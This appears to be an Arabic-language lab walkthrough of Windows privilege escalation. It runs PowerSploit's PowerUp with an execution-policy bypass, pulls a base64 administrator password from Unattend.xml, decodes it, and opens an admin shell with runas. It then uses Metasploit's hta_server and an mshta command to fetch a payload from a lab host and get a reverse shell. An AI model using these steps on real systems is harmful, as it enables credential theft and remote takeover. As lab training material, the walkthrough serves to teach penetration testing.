 
راح نبداء باللاب الثالث الي هو 

Unattended Installation
------------------------| 

طبعا هذي الاداة موجوده بابليك وهي بالبور شيل وظيفتها تجرب لك اكثر من تكنيك لرفع الصلاحيات  

الان لنفرض انك اخذت شيل وكلشي تمام وتبي تسوي رفع لصلاحياتك او تصعيد الصلاحيات طبعا راح ندخل على الـ Attacker Machine الي هي ويندوز  

نفتح الباور شيل ونشوف حنا مين اصلا ايش اليوزر الي معنا  
[whoami]  

طبعا التول مرفوعه على اللاب من اول وجاهزه راح ندخل للاداة  
[cd .\Desktop\PowerSploit\Privesc\]  

طيب الان الي بنسويه حنا بنسوي load لسكربت الي هو PowerUp.ps1  
[.\PowerUp.ps1]  
[R]عشان يشغله لنا  

طبعا فيه الامر هذا نسويه عشان مايسالنا كل مره جينا نشغله هل تبي تشغله او لا ونكتب R بيكون دايركت يشتغل  
[powershell -ep bypass]  

طبعا الان اي دالة نبي نستدعيها نقدر بكل سهوله راح نجرب نستدعي فنشكن  
[Invoke-PrivescAudit]  

طبعاالي يهمنا هو UnattendPath طبعا هذا ملف غالبا يكون فيه باسوردات النظام ولابد يكون له بولسي ومو اي احد يدخل الملف هذا  

راح نقرا الملف الان عشان نشوف هل فيه باسورد او لا  
[cat C:\Windows\Panther\Unattend.xml]  

طبعا نشوف انه فيه تاق اسمه PlainText قيمته هي false فهذا يعني انه مشفر لكن التشفير جدا سهل تفكه وهو نوعه base64  

ننسخ الباسورد الي بالتاق الي اسمه value نفكه في اي موقع او من الباورشيل نفسها  

[$password='QWRtaW5AMTIz'] طبعا هنا عرفنا المتغير وعطيناه قيمه  
[$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))] هذا الامر طبعا عشان نفك التشفير   
[echo $password] والان نطبع الباسورد بعد فك التشفير  

الان عطانا الباسورد الي هو Admin@123  
راح نفتح الـ cmd كا يوزر Administrator عن طريق هذا الامر  
[runas.exe /user:administrator cmd]  
الان راح يطلب منك الباسورد تسجله وتلاحظ انه دخل معك بدون اي مشاكل وصار معك كامل الصلاحيات  

الان نقدر نسوي اكثر من سيناريو عشان ناخذ ريفيرس شيل طبعا ومعنا الباسورد راح نكمل معكم بناخذ الشيل عن طريق msfconsole  

[msfconsole]  
[use exploit/windows/misc/hta_server] طبعا فكرة هذا الموديول انه يسوي لك صفحة واول مايدخلها الضحية علطول يحمل على جهازة باك دور ويعطيك ريفيرس شيل  
[exploit] or [run]  

الان نرجع للويندوز ونكتب هذا الامر  
[mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta] طبعا الرابط راح تعطيك الـ msfconsole  
